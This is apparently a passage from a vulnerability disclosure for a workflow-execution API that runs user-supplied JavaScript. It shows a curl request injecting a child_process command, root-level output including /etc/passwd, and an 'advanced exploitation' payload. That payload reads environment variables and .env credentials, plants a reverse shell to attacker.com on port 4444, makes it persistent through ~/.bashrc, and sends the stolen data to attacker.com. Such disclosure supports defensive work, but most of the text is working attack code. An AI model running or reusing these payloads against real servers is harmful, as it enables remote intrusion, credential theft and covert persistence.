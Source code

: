 #### Step 2: Execute Workflow
```bash
curl -X POST http://localhost:3000/api/workflows/execute \
  -d '{"script":"process.mainModule.require(\"child_process\").execSync(\"whoami\")"}'
```

#### Step 3: Actual Command Execution (Compromised)
```bash
# Command executed on server
$ whoami
root

# System access achieved
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
postgres:x:999:999:PostgreSQL administrator:/var/lib/postgresql:/bin/bash
```

#### Step 4: Server Response
```json
{
  "result": "root\n",
  "executionTime": 45,
  "systemAccess": true
}
```

### Advanced Exploitation
```javascript
// Install persistent backdoor
const exploit = `
  const fs = require('fs');
  const { exec } = require('child_process');
  
  // 1. Read environment variables
  const env = JSON.stringify(process.env);
  
  // 2. Find database credentials
  const dbConfig = fs.readFileSync('.env', 'utf8');
  
  // 3. Install backdoor
  const backdoor = 'const net=require("net");const sh=require("child_process").spawn("/bin/sh",[]);const client=net.connect(4444,"attacker.com",()=>{client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});';
  fs.writeFileSync('/tmp/.backdoor.js', backdoor);
  
  // 4. Make backdoor persistent
  exec('echo "node /tmp/.backdoor.js &" >> ~/.bashrc');
  
  // 5. Exfiltrate data
  const data = {env, dbConfig};
  require('https').request('https://attacker.com/collect', {
    method: 'POST'
  }).end(JSON.stringify(data));
  
  return 'Workflow completed successfully';
`;
```

---